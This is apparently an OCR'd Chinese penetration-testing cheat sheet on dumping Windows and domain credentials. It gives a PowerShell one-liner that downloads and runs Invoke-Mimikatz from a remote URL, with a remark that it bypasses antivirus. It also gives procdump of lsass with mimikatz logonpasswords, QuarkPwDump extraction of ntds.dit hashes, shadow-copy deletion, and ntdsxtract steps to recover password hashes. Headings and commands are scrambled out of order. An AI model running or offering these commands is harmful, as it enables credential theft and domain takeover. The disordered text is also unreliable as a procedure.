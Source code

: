 ```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
```

```
文件会比较大，低效，但是安全(绕过杀软)
ps:mimikatz的平台（platform）要与进行dump的系统(source dump)兼容(比如dowm了08的,本地就要用08系统来分析)
远程：
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
本地：
sekurlsa::minidump lsass.dump.dmp
sekurlsa::logonpasswords full
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjH7FRiayJbm0ic96OQr5dFhvHWOiadlFZw0korvVlGmvnwr7gZapmbR7Gg/640?wx_fmt=png)

3、端口扫描 InsightScan proxy\_socket 后，直接  

```
QuarkPwDump.exe --dump-hash-domain --with-history --ntds-file c:\\ntds.dit
```

**内网文件传输**

**windows 下文件传输**

1、powershell 文件下载 powershell 突破限制执行：powershell -ExecutionPolicy Bypass -File .\\1.ps1

```
QuarkPwDump.exe --dump-hash-domain --with-history --ntds-file c:\\ntds.dit --system-file c:\\system.hiv
```

```
c:\\windows\\system32\\config\\system
c:\\windows\\ntds\\ntds.dit
```

2、vbs 脚本文件下载

```
cscript vssown.vbs /delete \*
```

```
libesedb的搭建:
wget https://github.com/libyal/libesedb/releases/download/20151213/libesedb-experimental-20151213.tar.gz
tar zxvf libesedb-experimental-20151213.tar.gz
cd libesedb-20151213/
./configure
make
cd esedbtools/
(需要把刚刚vbs脱下来的ntds.dit放到kali)
./esedbexport ./ntds.dit
mv ntds.dit.export/ ../../

ntdsxtract工具的安装:
wget http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract\_v1\_0.zip
unzip ntdsxtract\_v1\_0.zip
cd NTDSXtract 1.0/
(需要把刚刚vbs脱下来的SYSTEM放到/root/SYSTEM)
python dsusers.py ../ntds.dit.export/datatable.3 ../ntds.dit.export/link\_table.5 --passwordhashes '/root/SYSTEM'
```
